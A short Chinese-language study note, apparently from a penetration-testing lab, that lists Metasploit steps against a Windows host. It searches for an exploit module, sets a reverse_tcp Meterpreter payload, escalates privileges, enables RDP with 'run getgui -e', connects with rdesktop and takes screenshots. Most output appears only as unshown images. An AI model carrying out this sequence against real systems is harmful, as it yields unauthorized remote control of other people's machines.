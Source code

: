 1.打开msfconsole

![image-20210117210730699](../../../note/img/image-20210117210730699.png)

2.search。查找漏洞漏洞编号，得到有效得攻击模块
![image-20210117210922305](../../../note/img/image-20210117210922305.png)

3.use 加载有效模块

![image-20210117211200557](../../../note/img/image-20210117211200557.png)

4.show options查看工具模块配置

![image-20210117211302929](../../../note/img/image-20210117211302929.png)

5.set Rhost 设置攻击地址

![image-20210117211608054](../../../note/img/image-20210117211608054.png)

6.set payload windows/64/meteperter/reverse_tcp

<img src="../../../note/img/image-20210117213215788.png" alt="image-20210117213215788" style="zoom:150%;" />

7.set Lhost

![image-20210117212125519](../../../note/img/image-20210117212125519.png)

exploit 执行
8.成功执行之后
输入 shell

![image-20210117223621729](../../../note/img/image-20210117223621729.png)



用户提权

![image-20210117224202085](../../../note/img/image-20210117224202085.png)



![image-20210117224646491](../../../note/img/image-20210117224646491.png)



run getgui -e
开启3389
![image-20210117224618397](../../../note/img/image-20210117224618397.png)

新开一个窗口
rdesktop ip

![image-20210117225453319](../../../note/img/image-20210117225453319.png)

成功实现远程控制

![image-20210117230104601](../../../note/img/image-20210117230104601.png)

还可以用screenshot进行截屏

可以看见桌面生成了图片

![image-20210117230246159](../../../note/img/image-20210117230246159.png)